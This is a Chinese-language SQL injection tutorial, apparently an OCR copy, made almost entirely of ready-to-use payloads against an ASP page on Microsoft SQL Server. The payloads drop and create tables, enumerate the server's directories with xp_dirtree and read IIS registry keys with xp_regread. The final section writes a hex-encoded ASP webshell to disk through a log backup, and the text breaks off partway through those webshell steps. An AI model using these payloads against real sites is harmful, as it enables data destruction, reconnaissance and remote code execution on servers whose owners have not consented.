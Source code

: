 Board.asp?id=494;DROP TABLE techguru;CREATE TABLE techguru(subdirectory nvarchar(400) NULL,depth tinyint NULL,[file] bit NULL)-

清空表的数据，然后把xp_dirtree存储过程的结果存入techguru表,xp_dirtree第一个参数是路径，第二个是深度，为0时无限递归，第三个是文件类型，1为文件夹和文件，0为只显示文件夹。

Board.asp?id=494;DELETE techguru;Insert techguru exec master..xp_dirtree &amp;apos;c:\&amp;apos;,1,1-

开始一个一个的抓取文件，目录名字，每次增加第二个top后面的数

Board.asp?id=494 And (Select Top 1 cast([subdirectory] as nvarchar(400))%2Bchar(124)%2Bcast([file] as nvarchar(1))%2Bchar(124) From(Select Top 1 [subdirectory],[file] From techguru ORDER BY [file],[subdirectory]) T ORDER BY [file] desc,[subdirectory] desc)=0

移除表：

Board.asp?id=494;DROP TABLE techguru-

【读取注册表--xp_regread】

首先建立一个表，有两列Value和Data

Board.asp?id=494;DROP TABLE [techguru];CREATE TABLE [techguru](Value nvarchar(4000) NULL,Data nvarchar(4000) NULL)-

执行xp_regread写入刚建立的表

Board.asp?id=494;DELETE [techguru];Insert [techguru] exec master.dbo.xp_regread &amp;apos;HKEY_LOCAL_MACHINE&amp;apos;,&amp;apos;SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots&amp;apos;,&amp;apos;/&amp;apos;-

读出来

Board.asp?id=494 And (Select Top 1 cast([Data] as nvarchar(4000))%2Bchar(124) From [techguru] order by [Data] desc)=0

删表

Board.asp?id=494;DROP TABLE [techguru]-

【上传webshell--backup log xx to disk】

备份log,截断1，截断2

第 一 步:建立存一句话木马的表

Board.asp?id=494;create table [dbo].[shit_tmp] ([cmd] [image])-

第 二 步：0×7900690061006F006C007500是&amp;apos;yiaolu&amp;apos;的sql编码

Board.asp?id=494;declare @a sysname,@s nvarchar(4000) select @a=db_name

(),@s=0×7900690061006F006C007500 backup log @a to disk = @s with init,no_truncate-

第 三 步：0×3C25657865637574652872657175657374282261222929253E是&lt;%execute(request(&quot;a&quot;))%&gt;的hex。

Board.asp?id=494;insert into [shit_tmp](cmd) values

(0×3C25657865637574652872657175657374282261222929253E)-

第 四 步0×64003A005C003100320033002E00610073007000是d:\123.asp的sql编码
